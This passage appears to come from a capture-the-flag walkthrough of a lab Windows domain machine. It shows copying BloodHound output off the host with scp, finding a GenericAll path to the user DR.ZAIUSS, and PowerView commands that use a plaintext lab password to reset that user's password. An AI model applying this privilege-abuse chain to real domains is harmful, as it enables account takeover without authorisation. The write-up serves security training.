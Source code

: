 ![](https://i.ibb.co/9sF7cNT/output-shr.png)

> **now we will download the `20210822132804_BloodHound.zip` to our machine with `scp` command.**

> **`scp 3v4Si0N@10.10.10.240:/temp/20210822132804_BloodHound.zip ./`**

![](https://i.ibb.co/7rcmwCn/scp.png)

> **now open `BloodHound` and drag and drop the zipped file.**

![](https://i.ibb.co/n17jrPV/blood.png)

> **now click on the left ans click on `Analysis` and choose `Find Shortest Path To Domain Admins`**.

![](https://i.ibb.co/db06sWS/admins.png)

> **there are 2 domain admins `ADMINISTRADOR` and `CYBERAVCA` so let's see the shortest path to any of them.**

![](https://i.ibb.co/NZ2zWwY/admin-path.png)

> **Long path, okay our user `3v4Si0N` has `GenericAll` Privilege on the user `DR.ZAIUSS` which is a memper of the `WINRM` Group and thats mean we can change his password and login with it.**

![](https://i.ibb.co/Jty7r8p/genallzaius.png)

> **Click on `GenericALL` and click help and it's will give you the commands and how to change this user password.**

![](https://i.ibb.co/cT70qHD/abuse-info.png)

![](https://i.ibb.co/0YYCPFM/abuse-2.png)

![](https://i.ibb.co/6PNYSrQ/abuse-3.png)

![](https://i.ibb.co/2FhwxDT/abuse4.pnghttps://i.ibb.co/2FhwxDT/abuse4.png)

> **Focus, here is the commands to change this user password and login with it but first upload [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).**

> **`$SecPassword = ConvertTo-SecureString 'Gu4nCh3C4NaRi0N!23' -AsPlainText -Force`**

> **`$Cred = New-Object System.Management.Automation.PSCredential('licordebellota\3v4Si0N', $SecPassword)`**

> **`$UserPassword = ConvertTo-SecureString 'Password123@@' -AsPlainText -Force`**

> **`Set-DomainUserPassword -Identity Dr.Zaiuss -AccountPassword $UserPassword -Credential $Cred`**

```ruby

PS C:\temp> Import-Module .\PowerView.ps1PS C:\temp> $SecPassword = ConvertTo-SecureString 'Gu4nCh3C4NaRi0N!23' -AsPlainText -Force
PS C:\temp> $Cred = New-Object System.Management.Automation.PSCredential('licordebellota\3v4Si0N', $SecPassword)     PS C:\temp> $UserPassword = ConvertTo-SecureString 'Password123@@' -AsPlainText -Force
PS C:\temp> Set-DomainUserPassword -Identity Dr.Zaiuss -AccountPassword $UserPassword -Credential $CredPS C:\temp>


```
